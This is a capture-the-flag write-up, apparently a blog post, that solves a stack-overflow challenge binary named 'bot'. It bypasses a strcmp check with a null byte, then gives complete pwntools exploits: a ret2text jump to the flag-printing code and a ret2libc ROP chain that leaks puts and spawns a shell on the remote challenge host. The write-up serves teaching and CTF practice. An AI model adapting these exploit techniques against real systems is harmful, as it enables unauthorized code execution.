






This challenge should be an easy ret2text, but I heavily overcomplicated it during the event. Considering we were provided a libc, I figured I should use it, even though there are instructions included in the program that read flag.txt.
I will first explain how it should be done with a ret2text, then I will show how I did it with a ret2libc ropchain.
<!-- more -->

We get the bot executable, libc, ld, Dockerfile and the bot.c code.
{}

From the c code we can see that `gets` is used to take our input, so our first step should be to get rip control.
For this we need to overwrite the return pointer of main, but the first tricky part will be to do that while actually reaching the return instruction of main. This is because, as we can see in the code below, if our input doesnt match "please please please give me the flag", we will enter the else of the first if, and the program will exit without returning from main.

```c
if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
```

Fortunately, because strcmp stops comparing at null bytes, but gets doesnt stop recieving input at null bytes we can add a null  byte after our initial string, and then keep sending input to reach the return pointer of main. We would then need to send the correct amounts of bytes to control the instruction pointer. We can find the correct offset with the following code and gdb.

```py
payload = b"please please please give me the flag"
payload += b"\x00" 
payload += b"A"*4

p.sendline(payload)
```


After setting a breakpoint right before the return of main, continuing and inspecting the stack where our input is stored, we can see that our A's end at **0x7ffe176ee3aa**. Now we just need to locate the return pointer of main. Pwndbg makes this very easy for us by showing us the address of the next instruction after main (**0x7f9bd98e7d0a**), so then we just need to find that address on the stack and subtract where our A's ended.




Since the result was 30 and we have already sent 4 A's we change our python code to send a total of 34 A's, which should give us control of the instruction pointer. 

This is where I went wrong and started leaking addresses for a ret2libc attack. What I should have done, as mentioned at the start, was to return to inside of the if where `system("cat flag.txt")` gets called. A quick look in gdb after running `disassemble main` lets us know that returning to 0x40128e, 0x401295 or 0x40129a should all work, since theyre between the jne (jump if give_flag != 1) and the call of system.



Using this this our full exploit becomes the following python code, and we get a flag (remember to create a flag.txt locally to test). If you want to see the ret2libc approach, keep scrolling.

```py
from pwn import *

p = process("./bot")

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(0x40128e)

p.recvline()
p.sendline(payload)

p.interactive()
```


<!-- more -->

If we do want to ret2libc like I did, we first need to use our instruction pointer control to leak a libc address,find the base of libc and use that to call system and pop a shell. I chose to leak the address of puts as we know from the c code that it is being used in the program.

To make our debugging easier we use pwninit to link our executable with the given libraries and create a solve.py template for us. We wish to use puts to print the address of puts in libc. For that to happen we need the RIP to point at a pop rdi instruction, then the address of puts in the GOT and the address of puts in the PLT. We find a `pop rdi; ret` instruction at 0x40133b with ropper, and use the pwn library for the rest. Our payload now looks like this:

```py
pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])
```

We call main at the end, so we will be asked for input again and can send a payload with system("/bin/sh"). This first payload leaks the address of puts in libc, which, since we know the libc version, allows us to calculate and store the base address of libc. We also decide to log the address of puts in libc as a sanity check:

```py
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base
```


Great, it worked! Now the remaining part is quite simple. We do the same thing as with the first payload, but this time we find an instance of "/bin/sh" in the libc and places that on the stack as our argument. Then we call system from libc, which we can do because we already stored the libc base. Finally we finish with exit to keep the program happy.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)
```

The above payload works just as intended and we successfully pop a shell! :)<br>
This was my first writeup, I hope you enjoyed and maybe learned something.



## Full exploit:
```py
from pwn import *

exe = ELF("./bot_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process("./bot_patched")
#gdb.attach(p)

p = remote("lac.tf", 31180)

pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])

p.recvline()
p.sendline(payload)

p.recvline()
p.recvline()
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base

p.recvline()

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)

p.sendline(second_payload)

p.interactive()
```
